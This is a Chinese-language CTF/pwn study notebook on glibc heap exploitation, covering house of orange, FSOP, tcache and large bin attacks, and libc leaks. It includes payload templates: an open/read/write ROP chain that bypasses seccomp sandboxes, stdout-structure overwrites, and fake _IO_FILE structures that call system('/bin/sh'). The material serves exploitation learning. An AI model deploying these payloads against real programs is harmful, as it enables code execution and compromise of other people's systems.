libc_name="/lib/x86_64-linux-gnu/libc.so.6"

libc=ELF(libc_name)

write_offset=libc.symbols["write"]

bin_sh_address=libc_address+next(libc.search(b"/bin/sh"))

# 新版LibcSearcher 使用方法
from LibcSearcher import *
obj = LibcSearcher("fgets", 0x7ff39014bd90) # 使用一个已知符号地址作为初始约束，初始化 LibcSearcher
#obj.add_condition("atoi", 218528) # 添加一个约束条件
'''
obj.select_libc(2) # 手动选择 2 号 Libc 作为正确的 Libc
'''
printf_addr = obj.dump("printf") # 根据已有约束条件，查询某个符号在 Libc 中的地址
```


##### ⑨. 爆破模板
```python
#爆破代码书写模板
#你要是足够自信能够很好的预测爆破概率或者运气足够好也可以用 for i in range(16 * ?)之类的也行
while True:
    try:
    	'''
   	 	#如果爆破成功要实现的代码
   	 	#还有就是所谓的爆破只是说往往可能有一个或两个数字（这里都指16位数字）你泄露不了，只能硬猜
   	 	#所以这里的代码你就自己随便假设个那个数字就行
    	'''
    except:
        sh.close()
        
```


##### ⑩. orw ROP格式
````python

payload = flat([
    pop_rdi_ret_addr,
    heap_base + 0x2A40,
    pop_rsi_ret_addr,
    0,
    pop_rdx_ret_addr,
    0,
    pop_rax_ret_addr,
    2,
    syscall_ret_addr,   #open
    pop_rdi_ret_addr,
    3,
    pop_rsi_ret_addr,
    heap_base,
    pop_rdx_ret_addr,
    0x100,
    pop_rax_ret_addr,
    0,
    syscall_ret_addr,   #read
    # read_addr,
    pop_rdi_ret_addr,
    1,
    pop_rsi_ret_addr,
    heap_base,
    pop_rdx_ret_addr,
    0x100,
    pop_rax_ret_addr,
    1,
    syscall_ret_addr   #write
    # write_addr,
    ])

```
open 函数想要使用的话就必须要使用syscall来实现，这样才能绕过沙箱，直接使用open函数的话会有一些其他的系统调用（open_at系统调用）从而被沙盒拦截。
```

```
写函数尽量用write函数而不是使用printf函数，因为在高版本libc中，使用printf函数开头会有一句汇编语句：
movaps xmmword ptr [rsp + 0x40], xmm0
这个浮点汇编语句中要求 rsp + 0x40 的结果必须是 0x10对齐的，这也是很多exp中出现的使用 return 语句进行栈对齐的原因。比较麻烦，所以尽量不用。
```

````
##### ⑩①.  main_arena 泄露libc基地址
```python
#整半天才发现，原来main_arena是个黑话啊！在glibc中是找不到这个名字的，所以怎么办呢？
#其实很简单，用__malloc_hook去做不就完了，其中 &main_arena = &__malloc_hook + 0x10

libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - libc.symbols["__malloc_hook"] - 0x60 - 0x10

#这个0x60就是 unsorted_bin 相对于 main_arena 首部的偏移。
```


#### 5. 堆学习知识点
-----

>堆攻击其实解决了一个很关键的问题——如果无法修改got表应该怎么办？
>其实就是利用钩子函数（hook函数）而我们常见的能利用的hook函数就是__malloc_hook和__free_hook，由此和堆攻击产生了密切的联系。


##### ①. house of force

详情请看——https://www.52pojie.cn/thread-1399142-1-1.html
备注：通过分配 将top_chunk size修改为0xFFFFFFFFFFFFFFFF来使堆分配实现回绕现象的house_of_force只对2.28以下的GLIBC有效，再新的GLIBC就增加了top chunk的完整性保护了

Glibc 2.29中对top chunk进行了一些检查：

##### ②. fastbin_attack

详情请看——https://www.52pojie.cn/thread-1402862-1-1.html
备注：FastBin_dup只可以用于glibc_2.3.1及以下的版本

##### ③. main_arena 结构图


##### ④. main_arena 类型定义


##### ⑤. main_arena->top 类型定义


##### ⑥. unsorted_bin 具体表现形式


##### ⑦. unsorted_bin link实现过程及unlink过程
```c
//举例：
//其中chunk_a和chunk_b的size均大于0x80处于unsorted_bin的范围内
malloc(a);
malloc(b);
free(a);
free(b);
```
还在使用中的块b，size filed中prev_inuse位置零；
被释放的块a，user data最后一个字变成块a的大小，即prev_size字段；
被释放的块a，user data的前两个字节变成两个指针，分别是fd和bk；
这时free(b)会把两个块合并，实际上执行的操作是：

查看b的prev_inuse，发现位0，前一个块已经被释放；
查看b的prev_size，找到块a的起始地址；
把a从unsortedbin list上卸载下来，即按照fd、bk去修改前后块的地址

##### ⑧. safe_unlink 
```c
//safe_unlink 要求 fd->bk == bk->fd
//一般情况下我们的实现方法是让 fd + 0x18 == bk + 0x10
//至于说在攻击时fd和bk要取多大的值呢？
//看你想往那个地址写8个字节的“大值”，
//则 fd = wanted_address - 0x18
//   bk = wanted_address - 0x10
//在safe_unlink 实现后最后呈现的效果就是——
     *wanted_address = wanted_address - 0x18 
//因为safe_unlink 的实现过程就是：
         if(fd->bk == bk->fd){
             fd->bk = bk;
             bk->fd = fd;
         
```
##### ⑨. unsorted_bin_leaak
**注：unsorted_bin_leak 在glibc—2.29版本后失效**

```c
//如何用堆去泄露libc地址呢？
//其实是非常简单的
//至少在我看来目前的方法只有——unsorted_bin_leak
//一般main_arena的起始地址与__malloc_hook的地址只差0x10
//所以leak实际上的效果是：
//输出了fd即main_arena中unsortedbin的值->
//通过这个地址计算出main_arena的起始地址->
//通过这个起始地址获得libc的基地址
```



* **注意：通过“堆吞并”导致的unlink操作和在“由于malloc后在unsorted_bin里面进行遍历导致的unlink操作是不一样的。”**  
```C
//因为malloc后在unsorted_bin里进行的操作永远都是在main_arena的unsorted_bin的bk的控制下工作的
//和fd没关系，因为要从前往后数，无论轮到哪一个unsorted_bin的chunk，都要进行unlink操作，不是找到合适的malloc成功了，就是根据大小分配到相应的small_bins或者是large_bins中
```
所以此攻击的的具体工作方式就是——控制unsorted_bin中第一个，就是位于unsorted_bin的队首的chunk的bk指针（fd随便写一个就行），将其值修改为**“要被写入*main_arena的地址的地址* - 0x10”**
之后我们便可以泄露libc地址。

##### ⑨. house of orange

`house of orange` 其包含两个重要的组成部分：

```c
//1.通过修改top_chunk使得我们无须使用free函数得到一块unsorted_chunk
//2.通过修改IO_FILE劫持vtable攻击(FSOP攻击)
```

目前第一个利用技巧至今仍然有效，但第二个只适合libc2.23之前的版本，2.24之后加入了vtable check检查，但仍可以绕过，但是2.27及之后的版本取消了abort刷新流的操作，所以这个方法基本就失效了。


我们先介绍第一个攻击技巧：
> 1.通过修改top_chunk使得我们无须使用free函数得到一块unsorted_chunk
在我们最开始学习堆的时候有了解到，malloc分配内存的时候实际上更底层是通过sbrk的调用拓展内存的空间的，这里图中绿色的线表示的就是brk目前分配到的位置


> 假如我们把Top Chunk修改为一个很小的数，这时再申请一个更大的chunk
>
> 内存认为的Top Chunk是无法满足申请空间的需求的，因此堆管理器后续会再使用brk申请一块新的区域
>
> 正常来说堆管理器会直接将通过`brk`分配的新内存直接并入到Top Chunk中（即让Top Chunk变大）
>
> 但是由于我们改小了Top Chunk，堆管理器认为Top Chunk与堆的尾部并不相邻
>
> 因此会将原本的Top Chunk Free掉
>
> 这样一番过程下来，我们就没有通过Free函数得到了一个Free chunk
>
> 根据修改的Top Chunk大小，我们可以利用这个Free Chunk来实现Unsorted bin attack

   **但这个top_chunk不是随便改的，要满足以下要求:** 

> （1）top chunk size>MINISIZE（0x10），总之就是不能太小
  （2）top chunk需要有pre_inuse的标志，也就是最后一位需要是1
  （3）old_top+old_size的值是页对齐的

第二个攻击技巧——FSOP：

我们知道Linux的文件系统中一切皆为文件，

每一个进程创建时都会有三个标准I/O File Stream：

- `stdin`
- `stdout`
- `stderr`

其中这三个文件被建立在libc段中，其他被打开的文件则被建立在堆段中。

即使程序没有输出、没有输入，没有打开任何文件，这三个标准文件仍然会被建立。

所以FSOP是一种应用非常广泛的攻击方式。

> 由IO_FILE的介绍可知，进程中所有的FILE结构体会通过_chain域构成一个链表，IO_list_all就是作为头结点维护
> FSOP的原理就是劫持IO_list_all的值伪造链表和其中的IO_FILE结构体.
> 主要就是将vtable的值修改为我们伪造了函数指针的fake_FILE地址。但是单纯的伪造数据还不够，需要找到一个机制触发，执行我们伪造的数据。
> FSOP采用的就是调用IO_flush_all_lockp，这个函数会刷新IO_list_all链表中所有项的文件流，相当于对每个文件流调用了fflush函数，所以对应着也调用了IO_overflow，而这个函数需要通过vtable的函数指针调用。之前我们已经将vtable伪造，所以最终实现控制程序流。
> 而_IO_flush_all_lockp不需要攻击者手动调用，在一些情况下这个函数会被系统调用：
>
> - 当libc执行abort流程时
> - 当执行exit函数时
> - 当执行流从main函数返回时

其实在一般情况下，也就是在house of orange的题目中，_IO_flush_all_lockp的调用关系是这样的：

**libc_malloc => malloc_printerr =>** libc_message => abort => _IO_flush_all_lockp

>如果要调用IO_overflow还需要满足以下几个条件：(此方法只适用于glibc-2.23及之前版本)
>- fp->_mode <= 0
>- fp->_IO_write_ptr > fp->_IO_write_base

需要注意的是house of orange中由于_mode因随机化有1/2的几率是负数，所以成功几率是1/2.

因为标准文件流有三个，所以只要有一个满足上面的条件就行，如果一个不满足的话，程序就会顺着本_IO_FILE.__chain跳转到下一个_IO_FILE中

最后在程序触发IO_flush_all_lockp后触发IO_overflow函数

至于说2.24版本之后怎么绕过，请看这两个博客内容：

[通过一道pwn题探究_IO_FILE结构攻击利用-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/164558#h3-3)

[IO FILE 之vtable check 以及绕过 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5579)

##### ⑩. off_by_one攻击
```c
//堆中的off by one可以覆盖prev_inuse位，导致有可能出现两个指针指向一块内存的情况，进一步可以用unsortedbin leak泄漏libc地址、fastbin泄漏堆地址、unsortebin attack结合伪造_IO_FILE一系列操作拿到shell
```
------

在glibc 2.34后，所有hook劫持技术统统失效了。（悲

##### ⑩①. realloc 学习
首先 `realloc` 在申请的空间不同时，行为也是不同的。我们记申请的大小为 Nsize，ptr 指向的堆块的大小为 Osize，那么在调用 `realloc(ptr,Nsize)` 时有以下几种情况

- `Nsize == 0` 此时等同于 `free`，且返回值为 0
- `Nsize < Osize` 切割原 chunk，讲多余部分 `free` 掉
- `Nsize == Osize` 不做操作
- `Nsize > Osize` 尽可能地尝试通过后向合并（包括 `Tcache` 这样的一般不会被合并的 `chunk`）来满足申请，如果通过后向合并可以满足 `Nsize`，则**进行合并**并返回原指针；否则会新 `malloc` 一个 `Nsize` 的 `chunk`，将原 chunk 的数据拷贝至新 `chunk`，`free` 掉原 `chunk`（注意这种情况下**不会后向合并**）
- `Nsize = -1` 也就是申请一个机器无法分配的大小，由于我没有看源码，不知道实际行为如何，但是通过调试得到的结论为返回 0，且不会对 ptr 原指向的 chunk 进行 `free`
-  关于`realloc`，有一个特别重要的地方是在新的size比原来的大时，不会从tcache中取出chunk，而是类似calloc的行为。这一点十分重要。这点好像和前面的叙述有一些出入，具体这句话是指什么意思呢：具体的意思就是如果`realloc`进行扩展时，如果可以的话，是会吞并`tache_chunk`的，但是他吞就吞了，并不会在`tcahe_counts` 那里执行减一操作（颇有霸王餐的意味）

`calloc`是不使用`tcache`的。

##### ⑩②. tcache 学习


因此如果tcache大小为0x250，那么说明GLIBC版本在2.26到2.29之间；如果tcache大小是0x290，那么GLIBC版本在2.30以上；

超过了0x410的chunk在free掉的时候就会直接放到unsortedbin中了.

 众所周知，`tcahe`里面最多有7个`chunk`，这个数字是在哪里能看到的呢？

在gdb中输入`mp`查看这个结构的值

可以看到`mp`结构中有一项`tcache_count`，这个值就是决定了`tcache`每一个大小允许的数量


##### ⑩③.  tcache bin stash attack

- Tcache stash unlink attack，可以实现等价于 unsortedbin 的作用，即向任意地址写入一个不可控的大数字。其最核心操作，就是先放入 2 个 chunk 到 smallbin，6 个 chunk 到对应的 tcache 。之后在不破坏 fd 的情况下将后放入 smallbin 的 chunk 的 bk 设置为目标地址- 0x10 。这样当再向 smallbin 申请对应 size 的 chunk 时（一般用 calloc，因为 calloc 不请求 tcache ），先放入 smallbin 的 chunk 被分配给用户，然后触发 stash 机制。bck = tc_victim->bk; 此时的 bck 就是目标地址-0x10，之后 bck->fd = bin; 也就是*(目标地址-0x10+0x10) = bin，这样就实现了等价于 unsortedbin 的操作。之后调用 tcache_put 把后放入 smallbin 的 chunk 取出给对应的 tcache ，因为 tcache 之前已经被布置了 6 个 chunk ，这次 put 后达到了阈值，所以也就退出了这次 stash 循环，整个流程就可以正常结束了。

##### ⑩④. large bin attack

这绝对是我目前学过最TM复杂加玄学的堆管理机制了，这证明实验和看源码是非常重要的，不要逃避，还是要勤奋为好。

最近在看伊尹霍光之事，感觉large bin 的管理机制跟着基本差不多啊。

首先large bin 的在链表头遍历顺序就跟别人不一样，大家都是用 bk 遍历，唯独large bin不是，非得用fd去遍历，所有人都用fd去遍历。

其次就是跳表这种奇怪的性质了，与其说是跳表，不如说是“武林天梯榜”。

在其他的博客中看到的对跳表的描述：

这是一篇博客的说明：
首先fd_nextsize指向比他小的最大heap，而bk_nextsize指向比他大的最小的heap，最后将两条链条首尾相连。而fd和bk和其原来的任务一样，都是指向和其大小相同的堆块。

这是另一篇博客的说明：
fd_nextsize，bk_nextsize：只有chunk可先的时候才使用，不过用于较大的chunk（large chunk）
fd_nextsize指向前一个与当前chunk大小不同的第一个空闲块，不包含bin的头指针
bk_nextsize指向后一个与当前chunk大小不同的第一个空闲块，不包含bin的头指针

这是还有一篇博客的说明：

这样个字段并不像fd、bk那样挨着指向下一个chunk，而是指向下一个不同大小的chunk

这两个描述就很迷，有很多解释不了的地方，但是我们可以说这两个说的都对，但又都错。


今天我就告诉大家什么叫TMD正统，什么叫TMD王道，什么叫TMD周公！！！


我们首先要明白，large bin 是怎么遍历，遍历顺序是什么，跳表在其中起到了什么作用？传统的fd，bk指针在其中起到了什么样的功能？

首先main_arena中负责这个large bin大小范围使用 fd指针进行遍历第一个，在large bin 中 main arena fd永远指向最大的那个chunk，然后顺着这个最大的chunk的bk_size跳表进行跳跃式遍历，既遍历顺序为：

main_arena  fd->  0x470  bk_size-> 0x450  bk_size-> 0x460  bk_size -> 0x470

其中如果遍历到0x460的时候就符合要求了，那么遍历顺序为：

main_arena  fd->  0x470  bk_size-> 0x450  bk_size-> 0x460  fd-> 0x460（就是图中跳表空垂的那个） 

然后检查它的 fd_size 和 bk_size 是否都为0，如果是，将它分出去，进行unlink操作。

为什么会有奇怪的行为，这是为了什么？背后的原理是什么？

当然是为了速度快，之所以这么做全是为了速度快。

每次堆块遍历都从size最小的开始遍历，依次找最适合的chunk，同时为了节约头指针，所以会把fd_size 和 bk_size都为0的先分出去。

表面上看从main_arena出发是要对最大的堆块开刀，实际上却恰恰相反，反而是针对最小的chunk开炮。同时我们也能看到，堆块在这种跳表遍历模式下速度确实得到了飞快的进步。

同时还有一件事，在有的博客中提到一组large bin 的size这种概念，我们也确实需要考虑一件事，如果这时来了一个从unsorted bin 的chunk，它到底应该怎么插入呢？应该是和最大的“武林盟主”作比较还是和最小的“超级小弟”作比较？

很明显应该和最小的作比较，所以 一组large bin 的size 其实指的就是 main_arena -> bk既bck ->bk 的那个chunk的大小。如果比它小直接就接替它做这组large bin 的“超级小弟”，如果要是比它那再顺着fd_size一个一个去比。

同时对于那些处于队伍中间的large chunk 来说 fd_size还真是指向比它小的最大chunk，bk_size也确实是指向比它大的最小chunk，但是对于最大的那个chunk和最小的那个chunk，却不同，其实很简单，对于“武林盟主”来说，只有比它小的，哪有比它大的？“物极必反，水满则溢”，所以它的bk_size指向本组中最小的chunk，对于“超级小弟”来说，比它更小的压根没有，所以就指向本组最大的chunk。

如果这组large bin中只有一个large chunk，那么它的fd_size和bk_size全都指向它自己。

##### ⑩⑤. unsorted bin 遍历纠错
当malloc一个chunk时，会到unsorted bin 中去进行遍历，这是有两种情况今天我们要好好的纠正一下：
①. 当有恰好合适的chunk时，将这个合适的chunk交付出去，停止遍历unsorted bin链表。

②.没有合适的chunk，只有比它大的，怎么办呢？唉~， 咱之前都想错啦！

程序挨个遍历，将所有遍历的chunk都放入到属于他们大小的区域，比如small bin，比如large bin，然后再去目标需求的bin中去找，找到了就给它分出去，找到比需求量大的就给它切割掉，然后把剩下的部分送到unsorted bin队列中。

所以明白了吗？不是上来就切割，如果没有完全合适的chunk根本就挡不住unsorted bin的遍历步伐。


#### 6. 本地线程存储 与  /proc 查看

现代Linux x86-64下的fs/gs段寄存器的用途分别为：

- > 用户态使用fs寄存器引用线程的glibc TLS和线程在用户态的stack canary；用户态的glibc不使用gs寄存器；应用可以自行决定是否使用该寄存器（这里存在潜在的、充满想象力的优化空间）。
- > 内核态使用gs寄存器引用percpu变量和进程在内核态的stack canary；内核态不使用fs寄存器。

`/proc/self/maps`

- >如果进程有机会进行 fopen()和fread()的话，可以尝试直接去读`/proc/self/maps`，直接获得该进程的虚拟内存分布。

#### 7. 共享文件夹怎么用？


这个共享文件夹名称是什么意思呢？ 其实如果用Rust语言来说的话就是，

```rust
use D:\WeShare as WeShare
```

说白了就是虚拟机怎么能认识你的这个共享文件夹，就是依靠这个别名认识的。

然后在Linux中输入这个指令进行挂载

```shell
sudo mount -t vboxsf WeShare ~/Myfile/chong_冲天槊
```

这个  `~/Myfile/chong_冲天槊` 就是你要在系统中挂载的那个文件夹，记住，不要和共享文件夹名称重复。

#### 8. gdb调试代码
```python
def debug_menu_alloc():
    cmd = ""
    cmd += "brva 0x1725\n"
    cmd += "brva 0x1767\n"
    gdb.attach(io,cmd)
```

`Rust`代码调用gdb调试代码示例：

```rust
use std::process::command;

fn main() {
    // 创建一个gdb子进程，并配置多个命令
    let mut gdb_process = command::new("sudo")
        .arg("gdb")
        .arg("./bzimage")
        .arg("-q")
        .arg("-ex") // 为每个命令使用一个单独的 -ex
        .arg("add-symbol-file ./core/kgadget.ko 0xffffffffc0002000")
        .arg("-ex")
        .arg("target remote localhost:1234")
        .arg("-ex")
        .arg("b *(0x19a + 0xffffffffc0002000)") // 运行程序
        .arg("-ex")
        .arg("continue")
        .spawn()
        .expect("failed to start gdb");

    // 等待 gdb 进程结束
    gdb_process.wait().expect("failed to wait on gdb");
}

//   后人有诗一篇，以叙事曰：
//   受禅台前云雾起，石头城下无波涛；陈留归命与安乐，王侯公爵从根苗。
//　　纷纷世事无穷尽，天数茫茫不可逃。鼎足三分已成梦，后人凭吊空牢骚。
```


#### 9.文件流攻击

有一个事要注意以下，只有`glibc-2.23`才能很光明正大地使用修改`vtable`这种方法，因为之后的全都对`vtable`的地址进行检查（悲


首先先展示一下 `_IO_FILE` 的结构类型


##### ①. stdout 泄露libc地址


```c
//其实说白了就只需要做这么几件事就行
//1. 找机会修改 _IO_2_1_stdout_ 指针所指向的地址
//2. 修改 _flags = 0xFBAD1800
//3. 设置_IO_write_base指向想要泄露的位置，_IO_write_ptr指向泄露结束的地址
//具体原理我还不是很清楚，但是基本要素便是 _IO_write_base 的值小于 _IO_write_ptr
//当下一次put函数使用时，便会使用到这个早就被我们修改的_IO_2_1_stdout_ 
//泄露从 _IO_write_base 到 _IO_write_ptr 所有的字节数据。

```

一般情况下所用脚本代码类似于

```python
 malloc(1,0x30,p64(0xfbad1887) + p64(0) * 3 + b'\x00')
```

可能有同志就要问了：“`_flags`不应该是`int`类型的吗？那不就应该是`4`字节数据吗？怎么还是以`p64`的方式去写呢？”

这个其实就是和结构体对齐有关了，说是以`int`类型占据`4`字节，但是为了对齐之大业，也只好以周公之事侍之，占据`8`字节。

最后一个 `b'\x00'`  便是这个过程的灵魂之笔，不用泄露太多，来一点就行，总有能显示`libc`的地方。

##### ② . `fclose` 劫持`fp`指针,伪造`_IO_FILE_plus`结构
后面这些全是转载，原理啥的我也不太懂，不过自古以来抄板子就是pwn的一个优良传统

伪造`IO_FILE_plus`结构体, `32`位和`64`位不一样，`32`位的需要伪造`vtable`,而`64`位可以不用伪造`vtable`，因为64位的在绕过几个函数后会获得一次`call [rax + 0x10]`的机会。


先说`32bits`的

- 调用 `IO_FINISH(fp)`的情况

  ```python
  #注意flags字段，只需要_flags & 0x2000为0就会直接调用 IO_FINSH(fp)，IO_FINISH(fp)相当于调用fp->vtabl->__finish(fp)
  #其中shell是后门函数
  fake_file = "\x00" * 0x48 + p32(buf_add)
  fake_file = fake_file.ljust(0x94, "\x00")
  fake_file += p32(buf_add + 0x98 - 0x8)#fake_vtable_addr = buf_addr + 0x98 - 0x8
  fake_file += p32(shell)
  #不存在后门函数的情况
  fake_file = "\x00" * 4 + ";sh" 
  fake_file = fake_file.ljust(0x48,'\x00')+ p32(buf_add)
  fake_file = fake_file.ljust(0x94, "\x00")
  fake_file += p32(buf_add + 0x98 - 0x8)#fake_vtable_addr = buf_addr + 0x98 - 0x8
  fake_file += p32(system)
  ```
  
- 调用__fclose()函数的情况: flags & 0x2000不为0

  ```python
  #_flags & 0x2000不为0最终会调用fp->vtabl->__fclose(fp)
  fake_file = "/bin/sh\x00"
  fake_file = fake_file.ljust(0x48,'\x00')
  fake_file += p32(fake_lock_addr) # 指向一处值为0的地址
  fake_file = fake_file.ljust(0x94, "\x00")
  fake_file += p32(fake_vtable)#fake vtable address = buf_addr + 0x98 - 0x44
  fake_file += p32(system)
  ```


`64bits`的情况：

- 程序中存在后门函数

  ```python
  fake_file ='\0'*0x10 + p64(get_shell)+'\0'*0x70+ p64(buf_addr)
  fake_file = fake_file.ljust(0xd8,'\0')+p64(buf_addr)
  ```

- 程序中不存在后门函数

```python
fake_file = "/bin/sh\x00" + '\x00' * 0x8
fake_file += p64(system) + '\x00' * 0x70
# the system can also be placed in other memory
fake_file += p64(fake_lock_addr)#指向一处值为0的地址
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(buf_addr + 0x10 - 0x88) # fake_vtable_addr
```


#### 10.  scanf 之 往事


#### 11.  关于glibc—2.32 之后对于堆区指针的保护

```c
#define PROTECT_PTR(pos, ptr, type)  \
       ((type)((((size_t)pos) >> PAGE_SHIFT) ^ ((size_t)ptr)))
```

以后所有指针都不再是直接明晃晃的摆在你面前了，全都是加完密的了。

至于作用其实很简单就是

```c
(&ptr >> 12)  ^ ptr 
```

然后每次用这个指针之前也干这么个事（因为异或是可逆的嘛~）
